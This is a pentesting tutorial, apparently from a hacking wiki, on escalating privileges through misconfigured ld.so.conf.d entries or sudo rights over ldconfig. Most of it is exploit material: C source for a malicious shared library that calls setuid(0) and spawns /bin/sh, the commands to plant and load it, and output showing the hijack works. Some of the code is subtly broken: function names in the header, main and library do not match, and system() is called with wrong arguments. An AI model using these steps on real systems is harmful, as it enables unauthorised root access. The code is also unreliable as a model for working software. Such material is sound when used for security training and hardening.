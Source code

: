 # ld.so exploit example

## Prepare the environment

In the following section you can find the code of the files we are going to use to prepare the environment

{% tabs %}
{% tab title="sharedvuln.c" %}
```c
#include <stdio.h>
#include "libcustom.h"

int main(){
    printf("Welcome to my amazing application!\n");
    vuln_func();
    return 0;
}
```
{% endtab %}

{% tab title="libcustom.h" %}
```c
#include <stdio.h>

void vuln_func();
```
{% endtab %}

{% tab title="libcustom.c" %}
```c
#include <stdio.h>

void say_hi()
{
    puts("Hi");
}
```
{% endtab %}
{% endtabs %}

1. **Create** those files in your machine in the same folder
2. **Compile** the **library**: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. **Copy** _\*\*libcustom.so_ to _/usr/lib_: `sudo cp libcustom.so /usr/lib` \(root privs\)
4. **Compile** the **executable**: `gcc sharedvuln.c -o sharedvuln -lcustom`

### Check the environment

Check that _libcustom.so_ is being **loaded** from _/usr/lib_ and that you can **execute** the binary.

```text
$ ldd sharedvuln
    linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
    libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
    /lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln 
Welcome to my amazing application!
Hi
```

## Exploit

In this scenario we are going to suppose that **someone has created a vulnerable entry** inside a file in _/etc/ld.so.conf/_:

```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```

The vulnerable folder is _/home/ubuntu/lib_ \(where we have writable access\).  
**Downloadand compile** the following code inside that path:

```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void say_hi(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/sh",NULL,NULL);
}
```

Now that we have **created the malicious libcustom library inside the misconfigured** path, we need to wait for a **reboot** or for the root user to execute **`ldconfig`** \(_in case you can execute this binary as **sudo** or it has the **suid bit** you will be able to execute it yourself_\).

Once this has happened **recheck** where is the `sharevuln` executable loading the `libcustom.so` library from:

```c
$ldd sharedvuln
    linux-vdso.so.1 =>  (0x00007ffeee766000)
    libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```

As you can see it's **loading it from `/home/ubuntu/lib`** and if any user executes it, a shell will be executed:

```c
$ ./sharedvuln 
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```

{% hint style="info" %}
Note that in this example we haven't escalated privileges, but modifying the commands executed and **waiting for root or other privileged user to execute the vulnerable binary** we will be able to escalate privileges.
{% endhint %}

### Other misconfigurations - Same vuln

In the previous example we faked a misconfiguration where an administrator **set a non-privileged folder inside a configuration file inside `/etc/ld.so.conf.d/`**.  
But there are other misconfigurations that can cause the same vulnerability, if you have **write permissions** in some **config file** inside `/etc/ld.so.conf.d`s, in the folder `/etc/ld.so.conf.d` or in the file `/etc/ld.so.conf` you can configure the same vulnerability and exploit it.

## Exploit 2

**Suppose you have sudo privileges over `ldconfig`**.  
You can indicate `ldconfig` **where to load the conf files from**, so we can take advantage of it to make `ldconfig` load arbitrary folders.  
So, lets create the files and folders needed to load "/tmp":

```bash
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```

Now, as indicated in the **previous exploit**, **create the malicious library inside** _**/tmp**_.  
And finally, lets load the path and check where is the binary loading the library from:

```bash
ldconfig -f fake.ld.so.conf

ldd sharedvuln
    linux-vdso.so.1 =>  (0x00007fffa2dde000)
    libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
    libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
    /lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```

**As you can see, having sudo privileges over `ldconfig` you can exploit the same vulnerability.**

{% hint style="info" %}
I **didn't find** a reliable way to exploit this vuln if `ldconfig` is configured with the **suid bit**. The following error appear: `/sbin/ldconfig.real: Can't create temporary cache file /etc/ld.so.cache~: Permission denied`
{% endhint %}

## References

* [https://www.boiteaklou.fr/Abusing-Shared-Libraries.html](https://www.boiteaklou.fr/Abusing-Shared-Libraries.html)
* [https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2](https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2)
* Dab machine in HTB

